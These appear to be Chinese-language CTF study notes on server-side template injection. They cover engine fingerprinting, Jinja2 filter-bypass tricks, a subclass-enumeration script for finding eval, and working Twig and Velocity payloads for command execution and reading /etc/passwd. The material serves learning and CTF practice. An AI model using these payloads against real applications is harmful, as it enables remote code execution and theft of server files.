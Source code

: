 # ssti

## 思考方法 

### 检测

#### 直接将输入当成模板进行渲染

如

```python
reander_string(s);
```



#### 嵌入已有模板中

`reander_string("{{'hello,'+'"+s+"'}}");`

### 确认模板引擎



![image.png](http://ww1.sinaimg.cn/large/006pWR9aly1g8odw94ktrj31360mxjtz.jpg)

红色代表命令未执行,绿色代表命令成功执行

在twig中,{{7*'7'}}=>49

而在jinja2中{{7*'7'}}=>7777777




### 利用

#### 阅读文档

前两部都是为了确定阅读什么文档,文档中有利于我们接下来利用的提示。

在阅读文档的时候留意以下部分

-  'For Template Authors' 部分的基本语法
-  'Security Considerations' - 开发者通常没有阅读这一部分 ，在这个部分可能会包含一些对利用有用的提示
-  内置的方法,函数,过滤器和变量
- 留意默认加载的扩展和插件



#### 探索

- 记录下阅读文档时发现的可利用点。
- 接下来就是爆破获得sandbox中默认包含的对象方法和变量(作者推荐fuzzDB?)。
- 很多模板默认包含类似self的变量,可以尝试找一找。
- 开发者提供的对象通常具有敏感信息

#### 攻击

冲



## 一些有用的东东

`__dict__和dir()`获得 模块对象名称空间的变量,函数,类等等

### python 魔术方法文档

 https://pyzh.readthedocs.io/en/latest/python-magic-methods-guide.html#id1 









## jiaja2

http://docs.jinkan.org/docs/jinja2/templates.html



### 前置知识

#### 过滤器

变量可以通过 **过滤器** 修改。过滤器与变量用管道符号（ `|` ）分割，并且也 可以用圆括号传递可选参数。多个过滤器可以链式调用，前一个过滤器的输出会被作为 后一个过滤器的输入。

过滤器清单:http://docs.jinkan.org/docs/jinja2/templates.html#builtin-filters





### 一些绕过

- 禁用{{,则可以利用{%

- 禁用__,用

  ```
  {{''|attr('_'+'_class_'+'_')|attr('_'+'_ba'+'se_'+'_')}}
  ```

  来绕过

- 禁用(),用魔术方法绕过

- 禁用+号可以用`~`来代替





### 一些特性

1. 未定义的变量会被jiaja视为Undefined对象：

```
{{bbbb.__class__}}
<class 'jinja2.runtime.Undefined'>
```

2. jiaja模板中也可以用[]来访问属性

   ```python
   {{request['__class__']}}
   ```

3. 





### 默认存在的变量

 https://dormousehole.readthedocs.io/en/latest/templating.html 



## ssti爆破脚本

```python
#!/usr/bin/env python
# encoding: utf-8
import flask 
import os
cnt=0
for item in "".__class__.__mro__[-1].__subclasses__():
    try:
        cnt2=0
        for i in item.__init__.__globals__:
            if 'eval' in item.__init__.__globals__[i]:
                print(cnt,item,cnt2,i)
            cnt2+=1
        cnt+=1
    except:
        #print("error",cnt,item)
        cnt+=1
        continue
```



## twig

### 收藏

 [https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#2-Twig](https://www.k0rz3n.com/2018/11/12/一篇文章带你理解漏洞之SSTI漏洞/#2-Twig) 

### payload

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```



```
{{app.request.request.get('name')}}


{{'/etc/passwd'|file_excerpt(1,30)}}

```



## Velocity

### payload

```
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('cat /tmp/flag_1s_s000e4syyy223')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```



## 